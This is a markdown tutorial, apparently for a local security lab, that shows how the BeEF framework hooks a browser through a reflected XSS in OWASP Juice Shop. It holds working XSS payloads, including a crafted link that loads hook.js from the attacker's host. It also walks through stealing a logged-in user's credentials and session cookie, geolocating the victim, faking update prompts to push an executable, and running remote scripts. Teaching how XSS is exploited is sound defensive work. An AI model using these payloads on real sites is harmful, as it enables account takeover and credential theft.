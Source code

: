 # BeEF Tutorial

This tutorial assumes that 
1. you followed the [installation instructions](README.md)
2. the BeEF application is up and running, and can be reached at
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel)
3.  and that Juice Shop is up and running, and can be reached at
[http://vulnerable.local:3500](http://vulnerable.local:3500).

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto BeEF's administrative panel by going to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel) Enter here
the login credentials (the default username / password is `beefadmin` /
`difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view (1)

There are two vulnerable web sites. One has already been exploited, and another
one needs manual exploitation. Both examples can be used throughout the demo,
but the Juice Shop example is recommended, as it's more realistic.

For the victim's point of view, open a _new browser window_. The same browser
window can be used for both examples.

### Automatically exploited (simple form)

Let's now surf to a vulnerable site which contains a Cross-Site Scripting
vulnerability.
[http://vulnerable.local:3000/demos/basic.html](http://vulnerable.local:3000/demos/basic.html)

This specific vulnerable instance has already been exploited: This is an example
of a 'stored Cross-Site Scripting vulnerability', where the payload is
automatically executed. Even though you're visiting `vulnerable.local:3000`,
there's a direct hook into the BeEF framework.

### Manual exploitation (Juice Shop)

For a more realistic scenario, go to
[http://vulnerable.local:3500](http://vulnerable.local:3500) and click on the
search icon in the top right. This will open up a search box. Search for
"banana". This will return all results having "banana" in their description.

Now, an attacker discovered that the site contains a Cross-Site Scripting
vulnerability. Search for the term

```javascript
<img src=a onerror=alert(1)>
```

[<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>](<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>).

This will execute a reflected Cross-Site Scripting payload - an alert box will
pop up, showing a 1.

What's the damage, you'd think? Just an alert box, right? Well, this tutorial
will show you how you much damage you can do with 'just' a Cross-Site Scripting
exploit...

Say that the attacker crafted a link pointing to the vulnerable site, which
would execute a bit more realistic payload. It is up to the attacker to entice
victims to click on that link, for example by social engineering, using link
shorteners and messaging the link.

Click on the following link, prepared by the attacker:
[http://vulnerable.local:3500/#/search?q=%3Cimg%20width%3D0%20height%3D0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple](http://vulnerable.local:3500/#/search?q=%3Cimg%20width%3D0%20height%3D0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple)

Nothing weird happens, right? You don't see results, but that's all. Say now
that the victim wants to log on to the site, and clicks on the account link top
right. Fill in the account details of an existing account: `admin@juice-sh.op` /
`admin123`.

The victim is logged in, and everything looks okay.

However, the payload contained a hook to the attacker's BeEF instance:
`<script src="http://beef.local:3000/hook.js">`. What does this do? Well, this
ensures that the web site _is hooked_ onto the BeEF application.

## Attacker's point of view (2)

Switching back to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel), at the left
hand you can see that a victim is online: a browser is currently hooked. From
the moment the victim clicked on the link, the attacker controlled all of the
web content in the [http://vulnerable.local:3000](http://vulnerable.local:3000)
tab. Click in the left hand on the hooked browser in the `vulnerable.local`
domain.

On the active tab _Details_ you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab _Logs_. Here you can see what the victim is doing during this
session. **All entered text as well as mouse and keyboard commands are
intercepted**. If you look carefully you can read the username, and password
that the user entered.

**The attacker successfully stole the username and password**

### Grabbing the session cookie

Select the _Commands_ tab. This is where the majority of actions will be
performed. In the Module Tree, search for _cookie_. Select _Get Cookie_. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

In the _Module Results History_ section, an entry appears, with the selected
command. If you click on the command, which will have label _command 1_, you
will see the results at the right hand side. This is the session cookie of the
logged in user: all that the attacker needs to take over the victim's session.

**The attacker successfully stole the session cookie**

### Fingerprint the victim

Let's fingerprint the browser, so the victim can be followed.

Search for _fingerprint_, and click on the _Fingerprint Browser_ module. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

Search for _geolocation_ and select the _Get Geolocation (Third Party)_ module.
In the rightmost side, select for example the second entry,
`https://ip.nf/me.json` API. you now click on _Execute_, the attacker will find
out where the victim, visiting
[http://vulnerable.local:3500](http://vulnerable.local:3500), will be located.

**The attacker successfully fingerprinted and located the victim**

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
_Pretty Theft_ and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for _Fake_ and select the _Fake Notification Bar
(Chrome)_ module. In the right hand of the screen, enter the following as URL:

```
http://beef.local:3000/demos/droppers/dropper.exe
```

This file is located on the BeEF server, and will be the payload. For
demonstration purposes, this is a Windows executable, the calculator. Note that
you can add any file in the `droppers` directory, and it can be accessed
directly using `http://beef.local:3000/demos/droppers/` and then the name of the
file.

When clicking on _Execute_, the module will send a convincingly looking update
notification. As soon as the victim clicks on the notification, a file will be
downloaded.

**The attacker successfully pushed a rogue executable to the victim**

### Fun and games

**Note:** For best results for the next demos, let the victim first click on the
**OWASP Juice Shop** logo in the top left, so that all search results are
visible. The more visual elements, the better...

Just for fun, play a sound on the victim's computer. Search for _sound_ and
execute the _Play Sound_ module.

Is the sound on? Then we can do better... Search for _raw_ and select the _Raw
JavaScript_ module. Paste the following code in the JavaScript Code window:

```
var b = document.createElement('script');
b.type = 'text/javascript';
b.src = 'http://localhost:8088/shake.js';
document.body.appendChild(b);
```

Click on _Execute_.

**The attacker successfully executed arbitrary JavaScript**

### GOD exploit

For the ultimate exploit, search for _rick_ and select the _Redirect Browser
(Rickroll)_ module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.
